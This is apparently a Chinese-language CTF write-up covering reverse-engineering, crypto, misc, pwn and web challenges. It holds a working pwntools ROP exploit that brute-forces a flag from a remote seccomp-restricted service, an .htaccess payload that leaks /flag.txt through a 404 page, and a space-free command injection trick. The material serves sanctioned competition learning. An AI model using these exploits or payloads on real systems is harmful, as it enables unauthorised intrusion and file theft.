

# eof

紀錄一下排名 找教授的時候或許能派上用場



## Reverse

### Challenge Name :  Mumumu


題目是一64bit elf


程式行為: 
讀取 ./flag, 存到 flag_string中，之後加密這串string並寫入flag_enc，原本的題目提供了flag_enc，因此目標為找到一string經過加密後與原本的flag_enc相同。


原本的flag_enc:
    
    6ct69GHt_A00utACToohy_0u0rb_9c5byF3A}G515buR11_kL{3rp_

```pytohn=

import string

print(string.printable)
with open('flag_enc', 'r') as f:
    t = f.read()
print(t)
s = string.printable

correctIndex = {}
for i in range(len(s)):
    for j in range(len(t)):
        if s[i] == t[j]:
            correctIndex[j] = i
flag = '6ct69GHt_A00utACToohy_0u0rb_9c5byF3A}G515buR11_kL{3rp_'
sort_flag = [0]*100

for i in range(len(flag)):
    sort_flag[correctIndex[i]] = flag[i]

output = ''  

for i in sort_flag:
    output += i
    print(output)
```


---

### Challenge Name :  Nekomatsuri


執行程式會先read 一個 input ，然後若argc 小於 2 將開一個thread，並執行myThreadFunction的內容，myThreadFunction會開一個 child process 用 pipe與其互動。


從x64dbg觀察 child process的行為是:
    
    nekomatsuri.exe Ch1y0d4m0m0 asdfasdfasdfadf(前面隨便亂打的input)

    argc =3
    argv[1] = "Ch1y0d4m0m0"
    argv[2] = "asdfasdfasdfadf"

child process 會再次執行 nekomatsuri.exe，並且帶上兩個參數
因為 argc > 2，程式不會再進入createProcess的部分，先執行enc()，再執行check(argv[1], argv[2])
    


若 argv[2] 長度不為 65，goto LABEL_10
將argv[2] 經過 xor 的運算，若 argv[2] 不等於 flag_bytes，goto LABEL_10


用x64dbg可以看到當執行到 LABEL_10, return 值為 wrong :(


再從x64dbg查看flag_bytes經過第11行的加密變成了甚麼值，有了argv[1]和flag_bytes的值就能推出應將argv[2]設為多少


```python=

a1 = [ord(i) for i in 'Ch1y0d4m0m0']
flag = [0x05, 0x25, 0x72, 0x3D, 0x4F, 0x2F, 0x57, 0x01, 0x57, 0x3B, 0x54, 0x21, 0x3B, 0x51, 0x02, 0x4D, 0x15, 0x42, 0x1E, 0x51, 0x18, 0x7A, 0x27, 0x1A, 0x76, 0x09, 0x43, 0x11, 0x43, 0x11, 0x47, 0x2D, 0x24, 0x50, 0x7C, 0x26, 0x3C, 0x77, 0x27, 0x22, 0x26, 0x2C, 0x7F, 0x7F, 0x0E, 0x77, 0x7C, 0x37, 0x61, 0x6D, 0x31, 0x6F, 0x62, 0x69, 0x36, 0x46, 0x35, 0x3C, 0x20, 0x3F, 0x39, 0x6C, 0x36, 0x3C, 0x50, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x70, 0xF6, 0x58, 0x1A, 0xF6, 0x7F, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xFF, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x00]

a2 = ""
for i in range(65):
	a2 += chr(flag[i] ^ i ^ a1[i % len(a1)])
print(a2)
```


---


### Challenge Name :  Knock


用die看，發現是用.NET寫的


直接用ILSPY還原soruce code

程式行為是 Main call Secret0， Secret0 call Secret1 and Secret2;

Secret2 用 udp 收資料當參數傳給 Secret3，Secret3 把 udp的資料作hash之類的加密並和local 變數 array做比較，一致的話進入 Secret4

Secret4 用 udp 收資料當參數傳給 Secret5，Secret5 把 udp的資料作hash之類的加密並和local 變數 array做比較，一致的話進入 door()


- Secret3(data)


- Secret4(data)


- Door()


Secret3 和 Secret5 用同樣的方式將 data from udp 加密並和自身的string[] array比較是否相同，而 Door 的行為僅將自身的string[] array print出來，推測若將一 data 以 Secret3 和 Secret5共同的加密邏輯進行加密，得出來的結果與Door 的string[] array相同的話，則此 data 即為 flag


```c#=
using System;
using System.Net;
using System.Net.NetworkInformation;
using System.Net.Sockets;
using System.Security.Cryptography;
using System.Text;

namespace knock;

internal class Program
{
    private static void Main(string[] args)
    {
        byte[] data = new byte[65];
        int correctIndex = 0;

        for (int i = 0; i < 200; i++)
        {
            if (correctIndex >= 65)
            {
                break;
            }
            data[correctIndex] = (byte)i;
            string[] array = new string[65]
            {
            "f8c1ceb2b36371166efc805824b59252", "ec0f4a549025dfdc98bda08d25593311", "3261390a0dfd09dc16c3987eba10eb53", "66d986ecb8b4d61c648cebdcc2a5ccb2", "fbd5870d0c8964d2c9575a1e55fb7be9", "c0992476cbd06f4f9bb7439ecee81022", "debf803f8b64d47bcdcb8e6fc1854fd3", "3fa81b15cf1210e01155396b648bbe2f", "05880def669376ef5070966617ccdeea", "0c635429f6905f04790ecc942b1bcf86",
            "f70ce87784d549677b28dd0932766833", "790b40de039d3f13dea0e51818e08319", "4a5a99441aa7a885192a0530a407ade0", "0058628c972c658654471b36178f163f", "71f9eaf557aaa691984723bf7536b953", "30cbf3c9e5a0e91168f57f1a5af0b6dc", "d9ccfeb048086c336b1d965aee4a6c3d", "cfd0e95c62ddca1bfd1a902761df59f9", "9798150652e2bd5a24dfbfe5e678be9e", "eb275c9f4a7b3e799dabc6fa56305a13",
            "e7a559cf6b0acbf36087f76a027d55ba", "fe12380219f2285e48928bcb3658550a", "c6b3fb1f238c3a599fcbabb4127ee6b5", "4d15d083b996e4fd0865c79697fb10cd", "4008c526e86cde781976813b1bc3da38", "b0429dde1bbb1372f98a0d1f4c32fa3f", "2447ed4c7337c2c82d2a7bb63f49ec05", "90b247e82e0a0e30c9caf4402840c860", "e17cadf8ee52aa84dfc47d0203d38710", "bf8f4b12d3135fb4af7a1ac72509c9dc",
            "f2ee0d18cf0694678d32797774128ddd", "c6c24338269e7aeab5161fb191e475c2", "23c6afffd93216e493fec87ee9315b86", "0b93d09e1cdaed8d8e0de39531de182a", "1657d03d5b217d1d237db25d8a4d5489", "3498f0744f6059fb2bf7c778d085c909", "ac38e3f1e8d93a6a8c417165a59bce67", "e1b0e8bb077ef11bdee3cc67ddf9cd7b", "4732293cca5121ab05dd5e254d22acee", "fad3b901ba4258ad9fd71a7302df8148",
            "1e02fd1f2f4f22f42fb71a8230c3fa35", "75fcc6674ca64f120eaf3aa911870fc9", "ae8612af96882cb771f1a4d8fdb41fc3", "96bba5d198bfa190c2773516badc221d", "47728b786cbeb69d2c7292925f06aaf1", "3f9031bff26fb95509b8cd353bd0a131", "010863115678f4d19f1d4ac2b2db9697", "e944d1b87ad28a9f7c6cf90680483556", "466d818aafd0cdfc0a9ab3b41a02f5d9", "af0a281c8b0ccb7cb43b4b0345a3bb49",
            "fcb4cb5a6d51bba742fd9d4d73a3449f", "74dfb0110dbb3da8e23bf5fb40af078c", "eb70b854739c9b6cb35f8b2cf77ed64a", "ffe3b6cfa20bb97c909838f7351e4394", "b85ced8f3f11edbd781ee6b0d79fd7b4", "c10b6289b3fd56c1d17ba758960d1c20", "36986e79b356328a1bc32756416bb744", "e2476b0618c7e20c8246f3e274abca03", "9793fd49590b40952f928e7c431d43a9", "c5d774c5e69aea3707e5552b61c85bb2",
            "672e62fd225560292abdf292caf05a02", "6615c852430df05c405d1df7723e944f", "80fb5e9390b54dd8ef51d7c9a86bde14", "c05cec12c67e0c3f1cdb7ae7363008c4", "59e4e7efc94b52ce3ba792cbd7aaabd4"
            };

            int num = 0;
            if (data.Length != array.Length)
            {
                return;
            }
            foreach (byte b in data)
            {
                if (num < correctIndex)
                {
                    num++;
                    continue;
                }
                byte[] obj = new byte[5] { 0, 109, 100, 53, 0 };
                obj[0] = b;
                obj[4] = (byte)num;
                byte[] buffer = obj;
                byte[] array2;
                using (MD5 mD = MD5.Create())
                {
                    array2 = mD.ComputeHash(buffer);
                }
                if (BitConverter.ToString(array2).Replace("-", "").ToLowerInvariant() != array[num])
                {
                    break;
                }
                Console.WriteLine(data[correctIndex]);
                correctIndex++;
                i = 0;
            }

        }
        Console.Read();
    }
}
```

因為數量很少可以直接暴力破解猜出flag:


---


### Challenge Name :  Donut


和前面一題一樣是 .NET 但是沒辦法用ILSPY直接還原source code


可能有加殼過所以先把程式run起來，再從memory中dump

用 .NET Generic Unpacker 脫殼


接下來就可以用ILSPY還原source code了

從source code 觀察行為，程式會先輸出"What's your favorite flavor of donuts?"，再收一個輸入


```c#=
    try
    {
        int num = int.Parse(text);
        if (1000 <= num && num < 10000)
        {
            using MD5 mD = MD5.Create();
            byte[] array = mD.ComputeHash(bytes);
            BitConverter.ToString(array).Replace("-", string.Empty).ToLower();
            byte[] array2 = new byte[24]
            {
                49, 8, 83, 209, 4, 77, 130, 36, 139, 44,
                248, 52, 172, 0, 207, 23, 17, 27, 97, 254,
                30, 116, 143, 28
            };
            for (int i = 0; i < array2.Length; i++)
            {
                array2[i] ^= array[i % array.Length];
            }
            Console.WriteLine(Encoding.UTF8.GetString(array2));
        }
    }
    catch (Exception)
    {
    }
```

若輸入值是integer 將其 hash再 xor array2，最後把array2 輸出


```C#=
// donut, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
// donut.Program
using System;
using System.Security.Cryptography;
using System.Text;

internal class Program
{

    private static void Main(string[] args)
    {
        Console.WriteLine("What's your favorite flavor of donuts?");
        for (int myInt = 1000; myInt < 10000; myInt++)
        {
            string text = myInt.ToString();
            byte[] bytes = Encoding.UTF8.GetBytes(text);
            try
            {

                int num = int.Parse(text);
                Console.WriteLine(num);
                if (1000 <= num && num < 10000)
                {
                    using MD5 mD = MD5.Create();
                    byte[] array = mD.ComputeHash(bytes);
                    BitConverter.ToString(array).Replace("-", string.Empty).ToLower();
                    byte[] array2 = new byte[24]
                    {
                    49, 8, 83, 209, 4, 77, 130, 36, 139, 44,
                    248, 52, 172, 0, 207, 23, 17, 27, 97, 254,
                    30, 116, 143, 28
                    };
                    for (int i = 0; i < array2.Length; i++)
                    {
                        array2[i] ^= array[i % array.Length];
                    }
                    if(Encoding.UTF8.GetString(array2).StartsWith("FLAG"))
                    {
                        Console.WriteLine(Encoding.UTF8.GetString(array2));
                        Console.Read();
                    }
                }
            }
            catch (Exception)
            {
            }
        }

    }
}

```

遍歷 1000 到 10000，text 為 8192 得到flag


## Crypto
    
### Challenge Name :  Challenge Name : HEX

Points : 

Category : Crypto

Approach :

這題是 AES 加密，給出 iv 和 token cyphertext ，要求 token plaintext，同時我們可以丟 iv 跟 cyphertext 進 server，server 會回傳是否正確。

於是我去觀察哪些字元會報錯，發現只有 ‘A’~’F’, ‘a’~’f’, ‘0’~’9’，也就是可以轉成 hex 的，不會報錯，因此就可以利用以下算式推得 token plaintext : 
decrypt(token_ct) xor ori_iv = token_pt
decrypt(token_ct) xor test_iv = test_pt
=> if test_pt is valid bit, that means token_pt = test_pt xor test_iv xor ori_iv


Code :


Result :


## Misc

### Challenge Name :  Challenge Name : Washer

Points : 50

Category : Misc

Approach :

這題有給 source code ，會去執行某個檔案，可以用 write 寫入這個 bash 檔案內容，唯一問題是不能有空白，所以需要用別的字元繞過，例如用 cat<flag 取代 cat flag

Result :


## Pwn

### Challenge Name :  how2know_revenge
```c=
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <seccomp.h>
#include <sys/mman.h>
#include <stdlib.h>

static char flag[0x30];

int main()
{
    char addr[0x10];
    int fd;
    scmp_filter_ctx ctx;

    fd = open("/home/chal/flag", O_RDONLY);
    if (fd == -1)
        perror("open"), exit(1);
    read(fd, flag, 0x30);
    close(fd);

    write(1, "talk is cheap, show me the rop\n", 31);
    read(0, addr, 0x1000);

    ctx = seccomp_init(SCMP_ACT_KILL);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    seccomp_load(ctx);
    seccomp_release(ctx);

    return 0;
}
```

程式把/home/flag/flag 讀進 char* flag，然後23行給了一個長度0x1000 的 buffer overflow

```python
from pwn import *
import time
# p = remote('edu-ctf.zoolab.org', 10012)


context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

rbp = 0x411740

#用ROPgadet找出地址
add_rax_rdx_ret = 0x00000000004106bf
ebfe = 0x0000000000403a8d # 0xEBFE 是一個短跳指令, 作用是跳到這個指令原本的位址
pop_rdi_ret = 0x0000000000401812
pop_rsi_ret = 0x0000000000402798
pop_rdx_ret = 0x000000000040171f
pop_rax_ret = 0x0000000000458237

mov_byte_rdi_from_dl_ret = 0x0000000000442c53
strcmp_pop5reg_ret= 0x0000000000485307
movbyte_rdi_rsi_ret = 0x0000000000454aa0
clean_qword_rax8_ret = 0x0000000000427114


flag = ""
for i in range(50):
    for byte in range(0x20, 0x7f):
        p = remote('edu-ctf.zoolab.org', 10012)
        # p = process('./chal')
        print(flag, chr(byte))
        flagAddress = 0x4de2e0+i
        guessByte = flagAddress + 0x50


        ROP = flat(
            #clean guess string
            pop_rax_ret, guessByte-8,
            clean_qword_rax8_ret,

            #clean flag string
            pop_rax_ret, flagAddress-8+1,
            clean_qword_rax8_ret,

            #set guessByte(rdi) as my input
            pop_rdi_ret, guessByte,
            pop_rdx_ret, p64(byte),
            mov_byte_rdi_from_dl_ret,

            #set rsi as flag and strcmp, if equal shutdown, else sleep forever
            pop_rsi_ret, flagAddress,
            strcmp_pop5reg_ret, 0xdeadbeef, 0xdeadbeef, 0xdeadbeef, 0xdeadbeef, 0xdeadbeef, ebfe
        )


        # gdb.attach(p,
        # """
        # b *main
        # """
        # )

        payload = b'a' * 0x20 + b'b' * 8 + ROP
        p.sendafter(b' rop\n', payload)
        time.sleep(1)
        try:
            print(p.recv(timeout=3))
            flag += chr(byte)
            break
        except Exception as e:
            print(e)

```
用 ropGadget 找到 rop chain 的地址

用 IDA 找出 strcmp 的function，因為strcmp會比較字元陣列直到\x00才停止，所以若要一次猜一個byte要先把 flag[index] 以外的byte設為 0，guessByte 的地址也先清空。rsi 傳入 flag，rdi 傳入要猜的byte，因為register沒設定好，若 byte 完全相同會程式崩潰，不同的話就會回到ROP chain中設定好的無限迴圈


## Web
### Challenge Name :  Gist
content of .htaccess:

    ErrorDocument 404 %{file:/flag.txt}


上傳.htaccess


當404 error的時候server 就會 print /flag.txt

